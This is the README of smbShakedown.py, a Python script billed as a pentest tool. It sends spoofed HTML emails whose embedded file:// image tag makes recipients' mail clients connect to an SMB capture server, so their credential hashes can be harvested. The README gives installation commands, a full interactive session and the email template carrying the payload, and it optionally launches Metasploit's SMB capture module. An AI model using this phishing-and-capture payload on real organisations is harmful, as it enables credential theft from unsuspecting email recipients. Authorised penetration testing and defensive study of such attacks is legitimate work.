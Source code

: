 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.10252016.b
  
***  
INFO 10-25-16:
	
	README.MD / Help file are outdated.
	ADDED Option to Spoof Recipient header. (Also helps avoid orange "?" in Outlook)
	ADDED Option to insert HyperLink.
	ADDED HTTP Server feature to host a Web page with the HTML IMG SRC TAG.
	ADDED REDIRECT OPTION FOR HTTP SERVER.(Redirect back to client's site) - currently broken, working on a fix.
  	
  
***  
Installation:

    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py

***
Usage:

    1.Enter SMTP Server address:
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not supported.)
    
    3.Configure "from" and "to" addresses:
    (TIP: For multiple addresses, enter a file or seperate with a comma)
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.

***
Note: 
	If using Google's SMTP servers, ensure you have enabled "Less Secure Apps".


***
Example:
       
	External IP: 100.100.100.100
	Internal IP: 10.37.242.7
	
	
	Enter SMTP Server address[smtp.gmail.com]: 
	ENTERED: "smtp.gmail.com"
	
	Enter your SMTP Server Port[587]: 
	ENTERED: "587"
	
	Enter SMTP Server username[user@gmail.com]: user@gmail.com
	ENTERED: "user@gmail.com"
	
	Enter SMTP Server password: 
	
	
	Enter SMB Capture Server IP address[10.37.242.7]: 
	ENTERED:10.37.242.7
	
	Enter "from name":[Tester]
	ENTERED:Tester
	
	Enter "from address":[user@gmail.com]
	ENTERED:user@gmail.com
	
	Enter recipient(s) name[Client]: Client
	ENTERED:Client
	
	TIP: For multiple addresses, enter a file or seperate with a comma
	EX:/opt/emailAddresses.txt or user1@company.com,user2@company.com
	Enter recipient addresses[File or individual email(s)]): /opt/emailAddresses.txt
	ENTERED:/opt/emailAddresses.txt
	
	ENTERED:['user1@company.com', 'user2@company.com']
	
	Email Message Template Below:
	From: Tester <user@gmail.com>
	To: Client <['user1@company.com', 'user2@company.com']>
	MIME-Version: 1.0
	Content-type: text/html
	Subject: smbShakedown.py test.
	
	
	...
	<b>smbShakedown.py test message.</b>
	<br>
	<img src=file://100.100.100.100/image/foo.gif>
	
	Testing Connection to your SMTP Server...
	('SMTP Server Status: ', 250)
	Connection to SMTP Server is successful, would you like to send mail now?[yes]:yes
	ENTERED: "yes"
	
	Message(s) sent!
	no
	Launch Metasploit's SMB Capture module?[yes]:no
	ENTERED: "no"
	
	Ok, remember to setup your SMBCapture Server elsewhere. 


***        
To update email template modify the following in source:
Becareful not to remove the variables {0},{1},{2} and {3}

    ### EDIT: Email Message Template Below ###
	message = """From: {0} <{1}>
    To: {2}
    MIME-Version: 1.0
    Content-type: text/html
    Subject: smbShakedown.py test.


    ...
    <b>smbShakedown.py test message.</b>
    <br>
    <img src=file://{3}/image/foo.gif>
    """
    ##########################################################

***
To do:

	Add error handling.


